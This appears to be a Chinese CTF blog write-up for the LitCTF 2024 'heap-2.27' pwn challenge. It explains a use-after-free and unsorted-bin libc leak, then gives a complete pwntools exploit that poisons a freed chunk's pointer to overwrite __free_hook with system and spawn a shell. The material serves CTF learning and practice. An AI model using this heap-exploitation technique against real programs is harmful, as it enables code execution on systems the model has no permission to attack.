 ```yaml
---
title: '[LitCTF 2024]heap-2.27'
date: 2024-11-13 0:20 +0800
categories: [ctf,pwn]
tags: [unsortbin_leaklibc,free_hook]
---
```

> Problem: [[LitCTF 2024]heap-2.27](https://www.nssctf.cn/problem/5615)

## 思路
通过`unsortbin`泄漏`libc`地址，根据地址找到`free_hook`函数所在。
`delete`函数中存在`uaf`，使得我们能够修改已经释放的堆块，因此，我们可以通过修改堆块的`fd`申请到任意内存位置的堆块，实现`free_hook`劫持。
需要了解unsortbin生成条件，free_hook劫持原理。

## EXP
```python3

from pwn import *
context.log_level = 'debug'
context.terminal = ['tmux','splitw','-h']
#elf = ELF('./heap')
lib = ELF('/root/tools/glibc-all-in-one/libs/2.27-3ubuntu1.5_amd64/libc.so.6')
#io = gdb.debug('./heap')
io = remote('node4.anna.nssctf.cn',28014)
def create(idx,size):
    io.sendlineafter(b'>>',str(1))
    io.sendlineafter(b'idx? ',str(idx))
    io.sendlineafter(b'size? ',str(size))

def delete(idx):
    io.sendlineafter(b'>>',str(2))
    io.sendlineafter(b'idx? ',str(idx))

def show(idx):
    io.sendlineafter(b'>>',str(3))
    io.sendlineafter(b'idx? ',str(idx))

def edit(idx,content):
    io.sendlineafter(b'>>',str(4))
    io.sendlineafter(b'idx? ',str(idx))
    io.sendlineafter(b'content :',content)

create(0,0x10)
create(1,0x420)
create(2,0x10)
delete(1)
show(1)

free_hook = u64(io.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))+0x1c48
log.info(hex(free_hook))
libc_base = free_hook-lib.sym['__free_hook']
sys_addr = libc_base + lib.sym['system']
#pause()

create(3,0x10)
delete(3)
edit(3,p64(free_hook))
create(4,0x10)
create(5,0x10)
#pause()
edit(5,p64(sys_addr))
edit(4,b'/bin/sh')
delete(4)


io.interactive()```

## 总结
	学到一个小技巧，在pwngdb中可以通过`p &__free_hook`配合`distance`确定位置。
